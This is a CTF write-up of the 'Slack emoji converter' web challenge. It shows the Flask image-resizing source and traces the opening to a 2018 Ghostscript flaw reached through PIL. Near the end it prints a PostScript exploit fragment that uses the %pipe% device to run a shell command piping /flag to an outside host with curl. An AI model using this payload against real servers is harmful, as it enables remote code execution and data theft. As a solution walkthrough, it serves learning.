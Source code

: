 # Slack emoji converter (web, 267p, 29 solved)

```
create your own emoji for Slack at http://emoji.chal.ctf.westerns.tokyo
```

This task is a perfect example of CTF challenge naming conventions - because the challenge has absolutely zero relation to slack, emojis, and conversions.

We are expected to exploit the website http://emoji.chal.ctf.westerns.tokyo/.

The first challenge was to figure out how to drag&drop files from my heavily modified linux installation with i3wm and progressively more completely corrupted APT database. To be honest, I just took the easy way out and used a Windows VM.

Anyway the real challenge was to read the source code and find vulnerability:

```python
from flask import (
    Flask,
    render_template,
    request,
    redirect,
    url_for,
    make_response,
)
from PIL import Image
import tempfile
import os


app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/source')
def source():
    return open(__file__).read()

@app.route('/conv', methods=['POST'])
def conv():
    f = request.files.get('image', None)
    if not f:
        return redirect(url_for('index'))
    ext = f.filename.split('.')[-1]
    fname = tempfile.mktemp("emoji")
    fname = "{}.{}".format(fname, ext)
    f.save(fname)
    img = Image.open(fname)
    w, h = img.size
    r = 128/max(w, h)
    newimg = img.resize((int(w*r), int(h*r)))
    newimg.save(fname)
    response = make_response()
    response.data = open(fname, "rb").read()
    response.headers['Content-Disposition'] = 'attachment; filename=emoji_{}'.format(f.filename)
    os.unlink(fname)
    return response
```

See it yet? No? Probably because there's none. This means that there is 90% chance that ghostscript guys screwed up something again and whole internet is on fire (for example, just using PIL makes you vulnerable).
So I quickly googled something equivalent to `how do I pwn ghostscript in 2018` and found [this gem](http://openwall.com/lists/oss-security/2018/08/21/2): http://openwall.com/lists/oss-security/2018/08/21/2. This looked really interesting (announcement was from only few days ago!) - I decided to give it a try.

Of course not a single exploit worked on my broken good-for-nothing machine, so I almost lost hope at that moment. We almost spent 3 more hours searching for a different solution. Fortunately, I decided to craft one more exploit and send it to remote server as a last resort (via my Windows VM, of course). And you guessed it, it worked. Interesting fragment from the explot:

```
a5
1 .pushpdf14devicefilter
save
legal
restore
mark /OutputFile (%pipe%cat /flag | curl tailcall.net:3333 -X POST -d @/dev/stdin) currentdevice putdeviceprops
showpage
```

Whole exploit file [circle.eps](circle.eps).

`TWCTF{watch_0ut_gh0stscr1pt_everywhere}`